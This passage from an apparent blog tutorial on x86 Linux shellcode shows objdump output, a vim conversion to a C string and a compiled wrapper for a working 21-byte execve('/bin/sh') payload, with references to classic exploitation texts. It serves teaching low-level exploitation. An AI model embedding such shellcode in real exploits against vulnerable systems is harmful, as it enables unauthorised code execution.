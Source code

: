 
It's a little bit shorter than the previous one, but the real occurs when you look at the generated shellcode:

```shell
$ objdump -s shellcode

shellcode:     file format elf32-i386

Contents of section .text:
 8048060 31c05068 2f2f7368 682f6269 6e89e331  1.Ph//shh/bin..1
 8048070 c9b00bcd 80                          .....
```

# Wrapping up

We have our hex instructions, let's put that in our wrapper. Here's a swift way to convert your hex string to the proper format with vim:

```vim
31c050682f2f7368682f62696e89e331c9b00bcd80

:s/\(..\)/\\x\1/g

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80
```

```c
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80";
```

```shell
$ gcc -o shellcode shellcode.c
$ ./shellcode
$ # new shell
```

References:

- [Smashing The Stack For Fun And Profit by Aleph One](http://phrack.org/issues/49/14.html#article)
- [Hacking: The Art of Exploitation by Jon Erickson](https://www.goodreads.com/book/show/61619.Hacking)
- [The Shellcoder's Handbook by Jack Koziol et al.](http://eu.wiley.com/WileyCDA/WileyTitle/productCd-0764544683.html) 
- [execve /bin/sh shellcode 23 bytes by Hamza Megahed](http://shell-storm.org/shellcode/files/shellcode-827.php)
- [X86 Assembly Interfacing with Linux](https://en.wikibooks.org/wiki/X86_Assembly/Interfacing_with_Linux)
- [What are the calling conventions for UNIX & Linux system calls on x86-64](https://stackoverflow.com/questions/2535989/what-are-the-calling-conventions-for-unix-linux-system-calls-on-x86-64)
- [ASM working as is, but not in a C program](https://reverseengineering.stackexchange.com/questions/16244/asm-working-as-is-but-not-in-a-c-program)
